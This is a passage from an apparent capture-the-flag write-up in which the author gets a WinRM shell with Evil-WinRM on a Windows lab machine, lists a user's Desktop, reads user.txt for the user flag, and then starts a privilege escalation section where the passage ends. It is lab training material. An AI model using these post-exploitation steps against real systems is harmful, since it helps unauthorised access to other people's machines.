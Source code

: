 ![Evil-WinRM](assets/img/Evil-WinRM.png)

> We successfully have a shell connection to the machine!

---

## 🐚 Command & Control via WinRM (MITRE ATT&CK: Command and Control)

### 🍎 Get the low hanging fruits

```powershell
cd C:\Users\nathan.aadam\Desktop
ls
```

**Result:**

```powershell
    Directory: C:\Users\nathan.aadam\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/4/2025   1:01 PM           2312 Microsoft Edge.lnk
-ar---         7/25/2025  12:55 AM             34 user.txt
```

> Get the info from `user.txt` with `cat user.txt`

🏴 **User flag obtained.**

---

## 🚀 Privilege Escalation (PE) to root `Administrator` (MITRE ATT&CK: Privilege Escalation)
